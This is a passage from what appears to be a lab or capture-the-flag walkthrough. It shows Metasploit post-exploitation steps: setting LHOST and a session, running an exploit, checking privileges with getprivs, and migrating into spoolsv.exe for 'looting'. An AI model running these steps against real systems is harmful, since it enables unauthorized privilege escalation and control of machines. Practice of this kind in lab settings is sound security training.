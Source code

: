 <div align="center">
<img src="https://github.com/user-attachments/assets/a9d3c6da-4e91-4d40-9814-4e9723666964" height=""></img>
</div>

### We need to change the LHOST and Set the Sessions
* #### Let set Lhost 
```
set LHOST 10.17.120.99
```
* ### Set session
```
set session 1
```

<div align="center">
<img src="https://github.com/user-attachments/assets/090bcc50-7b3c-4d20-bca4-c5e0822fca4b" height=""></img>
</div>

* ### let run this exploit
```
run
```
### The exploit ran successfully.

<div align="center">
<img src="" height=""></img>
</div>
https://github.com/user-attachments/assets/e1754257-de53-47fe-a2ac-b47b155a3f02)

### Let check permission listed allows us to take ownership of files?
```
getprivs
```
![image](https://github.com/user-attachments/assets/c8f24c11-58d3-4e74-9ab9-80f9a4cb6c32)

### SeTakeOwnershipPrivilege allow us to take ownership.

## <div align="center"> Task 5 Looting</div>

## Let list the process uisng command:
```
ps
```

![image](https://github.com/user-attachments/assets/d3cad140-e1bf-4a16-b8eb-d61dec68df4c)

### We were going to migrate the process run by admin.
```
migrate -N spoolsv.exe
```
